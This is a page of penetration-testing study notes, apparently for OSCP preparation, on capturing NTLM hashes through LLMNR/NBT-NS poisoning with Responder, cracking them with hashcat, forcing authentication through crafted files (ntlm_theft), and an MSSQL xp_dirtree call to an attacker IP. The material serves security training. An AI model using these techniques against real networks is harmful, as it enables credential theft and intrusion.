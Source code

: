 ### Responder
#### Attack 1: LLMNR/NBT-NS Poisoning through SMB
>Essentially when a system tries to access an SMB share, it sends a request to the DNS server which then resolves the share name to the respective IP address and the requesting system can access it. However, when the provided share name doesn’t exist, the system sends out an LLMNR query to the entire network. This way, if any user(IP address) has access to that share, it can reply and provide the communication to the requestor.

>Let’s see a share “wow” which doesn’t exist currently. If the share exists on the same network, wow can be accessed by typing “\\\\wow” in the address bar of file explorer. It doesn’t exist and so, Windows throws an error.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/9dbcb69f-3468-4a23-869f-57f49bcf4ec8)

>In comes responder. Now at this point, the requesting machine (windows 10) sends out an LLMNR request. We set up responder to poison that request. We need to tell responder the NIC on which we want to listen for LLMNR requests. Here, eth0. The default responder run shall start LLMNR and NBT-NS poisoning by default.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/715de23d-fb7c-4794-92ec-28663d168154)

>Now, when the victim tries to access shared drive “wow” he sees this! Wow has suddenly been made available and the poisoner asking for user credentials.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/7b811a5b-998f-4456-8972-589602aa57ea)

>Wow isn’t available at all! That’s just our poisoned answer in order to obtain NTLM hashes. Even if the user doesn’t input credentials, the hashes will be obtained.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/e7d16cb4-e0ce-4032-8aa4-2b03ccd661b0)

>We can now save these hashes in a file hash.txt and use hashcat to crack it. Please note that module number 5600 is the one suited to crack NTLMv2. If you obtained some other version of NTLM, please follow the hashcat modules here to specify the correct one.

#### SMB
>OSCP exam only allow Analyze mode by -Av
```
Listener:
sudo responder -I tun0 -v
impacket-smbserver xingdi Desktop -smb2support

Access:
\\IPv4 address\test || //ip/test

NTLM_THEFT(https://github.com/Greenwolf/ntlm_theft/tree/master):

Browse to Folder Containing
.url – via URL field
.url – via ICONFILE field
.lnk - via icon_location field
.scf – via ICONFILE field (Not Working on Latest Windows)
autorun.inf via OPEN field (Not Working on Latest Windows)
desktop.ini - via IconResource field (Not Working on Latest Windows)

Open Document
.xml – via Microsoft Word external stylesheet
.xml – via Microsoft Word includepicture field
.htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
.docx – via Microsoft Word includepicture field
.docx – via Microsoft Word external template
.docx – via Microsoft Word frameset webSettings
.xlsx - via Microsoft Excel external cell
.wax - via Windows Media Player playlist (Better, primary open)
.asx – via Windows Media Player playlist (Better, primary open)
.m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
.jnlp – via Java external jar
.application – via any Browser (Must be served via a browser downloaded or won’t run)
```

#### HTTP
```
http://ip/
```
##### Upload form to capture hash

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/3223ac35-7d83-43f2-a1bf-794d6488bf4c)

#### MSSQL
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0d89e7ee-4d0a-420b-854e-2ab67c7f3a9a)
```
EXEC xp_dirtree '\\10.10.14.31\share', 1, 1
```

